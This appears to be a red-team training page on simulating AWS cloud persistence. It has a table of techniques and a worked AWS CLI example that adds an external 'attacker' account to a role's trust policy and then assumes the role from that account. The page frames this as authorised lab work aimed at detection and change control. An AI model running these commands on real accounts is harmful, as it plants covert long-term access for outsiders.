

# Cloud Persistence Simulation

> [!warning] Authorized simulation only
> Simulate persistence only in a scoped lab account with canary principals, and remove every artifact you create. The finding is *whether the change is detected*, not standing covert access.

## Parent Learning Order
Cloud Identity Operations -> Cloud Control Plane Operations -> Cloud Persistence Simulation -> Cloud Data Access Simulation

## Persistence Without Malware

> *On a server, persistence is a backdoor process or a cron job. In a cloud account with no server to touch, what is it?*
>
> Hold your answer — the section below is the response.

On a server, persistence means a backdoor process or a cron job. In the cloud there is often no server to touch — persistence means a **quiet change to identity configuration** that survives the defender rotating passwords and rebuilding instances. Because these are legitimate API calls, they blend into normal administration; the whole skill is knowing which config change is a backdoor.

The most durable technique targets **role trust policies**. A role's trust policy declares *who is allowed to assume it*. Add an attacker-controlled AWS account as a trusted principal, and that account can assume the role at will — from outside, forever, with no credentials stored anywhere the defender can find.

## Cloud Persistence Techniques

| Technique | What it leaves behind |
|---|---|
| Add external account to a **role trust policy** | Cross-account `AssumeRole` from attacker's account |
| Create a second **access key** for a privileged user | Long-lived credentials, easy to miss |
| Add a **Lambda** triggered on a schedule/event | Code that re-creates access if removed |
| Register an **identity-provider / OIDC trust** | Federated login the defender doesn't recognise |
| Leave a **login profile** on a service account | Console access on a non-human identity |

The invariant defenders rely on: the set of principals able to assume a role, and the set of credentials for each identity, should change only through change control. Persistence is any *unaccounted* addition to those sets.

The backdoor is a single added statement in a trust policy — invisible to host-based defense:



## Worked Example: A Backdoor That Survives Every Rotation

Cloud persistence is not a process or a cron job — it is a quiet, legitimate
configuration change to identity that outlives password resets and instance
rebuilds. The most durable version edits a role's trust policy, and it leaves
nothing on any host for a defender to find.

> [!note] Representative output
> Reconstructed to match the AWS CLI's real output shapes rather than captured from one account; identifiers are synthetic. The field names, error strings and command structure are what a live account returns.

**A role's trust policy declares who may assume it.** Before the change, only the
account's own service trusts it:

```shell-session
$ aws iam get-role --role-name analytics-role --query 'Role.AssumeRolePolicyDocument.Statement[].Principal'
[ { "Service": "ec2.amazonaws.com" } ]
```

**The backdoor is one added statement** naming an attacker-controlled account as a
trusted principal:

```shell-session
$ aws iam update-assume-role-policy --role-name analytics-role --policy-document file://trust.json
$ aws iam get-role --role-name analytics-role --query 'Role.AssumeRolePolicyDocument.Statement[].Principal'
[
    { "Service": "ec2.amazonaws.com" },
    { "AWS": "arn:aws:iam::999888777666:root" }
]
```

Account `999888777666` is the attacker's. That single `AWS` principal means any
identity in that account can now assume `analytics-role` — and the call is an
ordinary, authorised `update-assume-role-policy`, indistinguishable in isolation
from a legitimate cross-account integration.

**It works from outside, indefinitely:**

```shell-session
$ AWS_PROFILE=attacker aws sts assume-role \
    --role-arn arn:aws:iam::123456789012:role/analytics-role --role-session-name s
{
    "Credentials": {
        "AccessKeyId": "ASIA...",
        "Expiration": "2026-08-31T22:03:11Z"
    },
    "AssumedRoleUser": {
        "Arn": "arn:aws:sts::123456789012:assumed-role/analytics-role/s"
    }
}
```

The attacker, operating from their own account, holds fresh credentials for the
victim account's role. Nothing was stored on a victim host, so rebuilding every
instance changes nothing. No password was used, so rotating every password changes
nothing. The backdoor is a line in a policy document, and it persists until someone
audits the trust relationships specifically.

That last point is the defensive lesson. Host-based defence — EDR, re-imaging,
credential rotation — is blind to this by construction, because nothing malicious
runs on a host. The only thing that catches it is treating the set of principals
who can assume each role, and the set of credentials for each identity, as
change-controlled state: any addition that did not come through change control is
the persistence, whatever legitimate API call created it.

## Summary

You should now be able to:

- Explain why rotating passwords does not remove a role-trust-policy backdoor.
- Name the CloudTrail events a simulated persistence must fire, and verify full cleanup afterwards.
- Compare an added access key, a trust-policy edit, and an OIDC federation backdoor by detectability and durability, and justify the ranking.

---
> 🔼 Up: [[Cloud Red Team Operations]]
